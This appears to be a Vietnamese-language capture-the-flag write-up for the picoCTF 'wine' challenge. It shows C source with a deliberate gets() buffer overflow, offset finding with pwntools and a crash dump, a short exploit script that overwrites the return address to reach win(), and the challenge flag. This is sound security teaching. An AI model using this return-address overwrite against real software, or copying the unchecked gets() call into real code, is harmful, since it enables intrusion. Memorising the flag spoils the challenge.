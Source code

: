 ## wine
# Description:
Challenge best paired with wine.

I love windows. 

Checkout my `program` running on a linux box. Unzip the archive with the password picoctf and connect with it using `nc saturn.picoctf.net 62306`
# Solution:

* Đầu tiên, check file source và ta thấy lỗ hổng tràn bộ đệm ở `gets()` trong hàm `vuln`.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

* Dùng gdb để debug và tìm được địa chỉ hàm `win()` 
```
0x00401530  win
```

* Tiếp theo cần phải xác định số byte cần để ghi đè.
* Tạo một chuỗi với 200 kí tự bằng `cyclic()`
```
>>> from pwn import *
>>> pattern = cyclic(200)
>>> print(pattern)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```
* Truyền chuỗi này vào chương trình và thu được lỗi:
```
└─$ nc saturn.picoctf.net 62306
Give me a string!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe80 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e78 ECX:0064fde0 EDX:7fec48d8
 ESI:00000005 EDI:0021d6c0
Stack dump:
0x0064fe80:  6261616c 6261616d 6261616e 6261616f
0x0064fe90:  62616170 62616171 62616172 62616173
0x0064fea0:  62616174 62616175 62616176 62616177
0x0064feb0:  62616178 62616179 00230e00 0021d6c0
0x0064fec0:  008ba875 0b6be064 00000000 00000000
0x0064fed0:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x6261616b (0x6261616a)
0x6261616b: -- no code accessible --
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
PE      7b020000-7b023000       Deferred        kernelbase
PE      7b420000-7b5db000       Deferred        kernel32
PE      7bc30000-7bc34000       Deferred        ntdll
PE      7fe10000-7fe14000       Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
        00000009    0 <==
0000000c services.exe
        0000000e    0
        0000000d    0
00000012 explorer.exe
        00000013    0
System information:
    Wine build: wine-5.0 (Ubuntu 5.0-3ubuntu1)
    Platform: i386
    Version: Windows Server 2008 R2
    Host system: Linux
    Host version: 6.5.0-1016-aws
```

* Để ý vào dòng "Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b)" nhận thấy chương trình đã bị crash do ko thể truy cập được địa chỉ 0x6261616b.
* Xác định số byte ít nhất cần để ghi đè
```
>>> cyclic_find(0x6261616b)
140
```

* Vậy xác định được địa chỉ hàm win và số bytes => file `exploit.py`
```
from pwn import *

p = remote("saturn.picoctf.net", 62757)

p.sendline(b'a'*140 + b'\x30\x15\x40\x00')

print(p.recvall())
```

Flag: `picoCTF{Un_v3rr3_d3_v1n_2ef42747}`
